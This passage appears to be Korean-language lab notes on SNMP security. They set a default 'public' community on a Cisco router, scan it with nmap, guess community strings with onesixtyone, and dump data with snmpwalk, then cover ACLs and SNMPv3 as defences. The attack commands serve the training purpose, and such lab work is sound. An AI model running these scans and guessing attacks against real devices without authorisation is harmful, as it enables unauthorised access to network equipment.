 - snmp 사용

  ```
  R1(config)#snmp-server community public ro
  ```

- snmp 설정 확인

  ```
  R1#sh snmp community
  ```

  ![화면 캡처 2022-12-12 173553](../../assets/img/화면 캡처 2022-12-12 173553.png)

- scanning 하여 확인

  ![화면 캡처 2022-12-12 173626](../../assets/img/화면 캡처 2022-12-12 173626.png)

## snmp dictionary attack

- nmap 을 이용한 포트 점검

  ```
  # nmap -sU -p 161 10.10.10.254
  ```

  ![화면 캡처 2022-12-12 174402](../../assets/img/화면 캡처 2022-12-12 174402.png)

- 사전파일 작성

  ```
  # vim /root/dict.txt
  
  public
  private
  test
  
  # onesixtyone -c dict.txt 10.10.10.254 -o 1.txt
  ```

  ![화면 캡처 2022-12-12 174553](../../assets/img/화면 캡처 2022-12-12 174553.png)

- snmpwalk 를 이용한 정보 획득

  ```
  # snmpwalk -v 2c -c public 10.10.10.254
  ```

  ![화면 캡처 2022-12-12 175110](../../assets/img/화면 캡처 2022-12-12 175110.png)

- snmp 접근 제어

  - NMS(manager) 역할이 있는 IP주소만 접근할수 있게 ACL 을 설정

    ```
    R1(config)#access-list 1 permit 10.10.10.115
    R1(config)#snmp-server community public ro 1
    ```

  - 접근 제어 되었는지 확인

    ![화면 캡처 2022-12-12 175554](../../assets/img/화면 캡처 2022-12-12 175554.png)

- 차단방법
  - ACL
  - 방화벽, TCP Wrapper에서 차단
  - v3로 버전 업